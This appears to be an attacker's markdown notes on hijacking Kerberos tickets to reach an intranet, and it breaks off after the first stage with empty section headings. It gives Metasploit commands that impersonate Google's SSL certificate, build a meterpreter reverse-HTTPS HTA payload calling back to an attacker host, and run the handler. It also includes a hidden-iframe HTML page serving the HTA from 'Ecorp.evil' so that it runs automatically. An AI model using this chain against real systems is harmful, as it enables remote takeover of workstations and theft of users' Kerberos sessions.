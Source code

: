 # Hijacking Kerberose Tickets
> Jacking kerberos tickets to remotely access the intranet.
> The noted describe a process that is run from Kali

1. Attacker creates a web page seving a malicous HTA file
2. Target browses the attacker-sent web page & executes the served HTA file
3. Meterpreter session is established
4. Malicous Code Injection
	- A: PowerShell script for recon against browser is injected into the target workstation's memory.
	- B: gssapu-proxy is dropped and executed.  The attacker can connect to port 8080 & browse the intranet, hijacking the target's active Kerberose tickets.


## 1. Malicous HTA File

1. Craft Malicous HTA File

```bash
service postgressql start
msfconsole

# MSF

msf5 use auxilary/gather/impersonate_ssl
msf5 auxilary(mpersonste_ssl)> set RHOST www.google.com
msf5 auxilary(mpersonste_ssl)> run
```

The output of *run* will include a `[+] www.google.com:443 - pem: /location/to/pem.pem`.

```bash
# MSF
msf5 auxilary(mpersonste_ssl)> use payload/windows/meterpreter/reverse_https
msf5 payload(windows/meterpreter/reverse_https)> set LHOST [evil external IP]
msf5 payload(windows/meterpreter/reverse_https)> set LPORT 443
msf5 payload(windows/meterpreter/reverse_https)> set stagerverifysslcert true
msf5 payload(windows/meterpreter/reverse_https)> set HANDLERSSLCERT /location/to/pem.pem
msf5 payload(windows/meterpreter/reverse_https)> generate -f hta-psh -o /tmp/patch.hta  #See Note Below
msf5 payload(windows/meterpreter/reverse_https)> back
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST [external OR internal IP depending on the setup]
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > set stagerverifysslcert  true
msf5 exploit(multi/handler) > set HANDLERSSLCERT /location/to/pem.pem
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > exploit -j
```

**generate** Note: This could throw an error depending on the version of MSF you are using.
Older versions of msf use slightly different option flags.  Check the options for your version.

This may work instead: `generate -t hta-psh -f /tmp/patch.hta`

The `-t` was for output format but in `msf5>` it is `-f`

The `-f` was for output filename but in `msf5>` it is `-o`

**[+] Simple HTML page** to server the HTA file just created.

*Auto Execute* will only take place in IE and Edge browsers.

```html
<html>
<head>
<body>
<div style="display:none;">
	<iframe id="frmDld" src:"http://Ecorp.evil/patch.hta"></iframe>
</div>
</body>
</head>
</html>
```



## 2. HTA File is Executed


## 3. Meterpreter Session


## 4. Malicous Code Injection